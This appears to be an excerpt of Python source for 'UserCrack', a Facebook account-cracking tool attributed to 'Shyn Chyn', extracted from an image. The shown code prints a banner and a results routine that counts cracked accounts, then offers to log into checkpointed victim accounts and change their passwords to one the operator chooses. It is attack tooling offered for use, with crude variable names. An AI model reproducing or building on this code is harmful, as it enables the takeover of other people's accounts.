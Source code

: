     print("")
# LOGO
def logo():
    os.system("clear")
    print("""\n
\x1b[1;91m███████ ██ ██      ███████ 
\033[1;32m██      ██ ██      ██      
\033[1;31m█████   ██ ██      █████   
\x1b[1;94m██      ██ ██      ██      
\x1b[1;96m██      ██ ███████ ███████ 
 
\x1b[1;91m══════════════════════════════════════════════════════
\033[1;31m\033[1;37m Author \x1b[1;97m   : \033[1;37m           Shyn Chyn
\033[1;31m\033[1;37m Facebook\x1b[1;97m. :  \033[1;37m          Shyn Chyn
\033[1;31m\033[1;37m Status\x1b[1;97m    : \033[1;37m           FREE
\033[1;31m\033[1;37m Version\x1b[1;97m   : \033[1;37m           0.1
\x1b[1;91m══════════════════════════════════════════════════════""")

#CRACK SELESAI
def hasil(ok,cp):
    if len(ok) != 0 or len(cp) != 0:
        print(f'\n%s══════════════════════════════════════════════════════\n [%s✓%s] %sCracking By SHYN Usercrack...\n%s══════════════════════════════════════════'%(N,H,N,H,N))
        print(f' %s[%s+%s] Number of Accounts OK : %s%s%s'%(H,H,H,H,str(len(ok)),H))
        print(f' [%s+%s] Number of Accounts CP : %s%s%s'%(H,H,H,str(len(cp)),H))
        cek_cp = input(f"{H}══════════════════════════════════════════════════════\n [{H}+{H}] Show CP detector options [{H}Y{N}/{M}t{N}]: ")
        if cek_cp =="":
            print(f"\n [{M}!{N}] Don't be empty");hasil(ok,cp)
        elif cek_cp in["Y","y"]:
            jalan(f" {N}[{M}!{N}] Play airplanemode first");time.sleep(5)
            ww=input(f"\n {N}[{K}?{N}] Change password when {BM}TAP YES{N} [{H}Y{N}/{M}t{N}]: ")
            if ww in ("Y","y","ya"):
                ubahP.append("y")
                print(f" {N}[{H}•{N}] Password example : {H}SHYN123{N}")
                pwBar=input(f" {N}[{K}?{N}] Enter new password : {H}")
                #print("\n")
                if len(pwBar) <= 5:
                    print('\n %s[%s×%s] Password minimum 6 characters'%(N,M,N))
                else:
                    pwBaru.append(pwBar)
            for memek in cp:
                kontol = memek.replace('\n', '')
                titid  = kontol.split(' • ')
                print(f'{N}══════════════════════════════════════════\n {H}LOGIN PROCESS')
                jalan(f' {N}[{M}?{N}] Account : {K}{kontol.replace("[SHYN-CP] ", "")}{N}')
                try:
                    log_hasil(titid[0].replace("[SHYN-CP] ", ""), titid[1])
                except requests.exceptions.ConnectionError:
                    continue
                    print("")
            print("")
            jalan(' %s[%s✓%s] %sChecking process is complete%s'%(N,H,N,H,N))
            jalan(' %s[%s✓%s] Retrun SC type "%spython UserCrack.py%s"'%(N,H,N,H,N));exit()
        elif cek_cp in["T","t"]:
            jalan(f"\n {N}[{H}•{N}] {N}Ok, thank you. Retrun SC type '{H}python UserCrack.py{N}'");exit()
        else:
            print(f"\n {N}[{M}!{N}] Choose Y/t");hasil(ok,cp)
    else:
        jalan('\n\n %s[%s!%s] Sorry you didnt get results'%(N,M,N));exit()
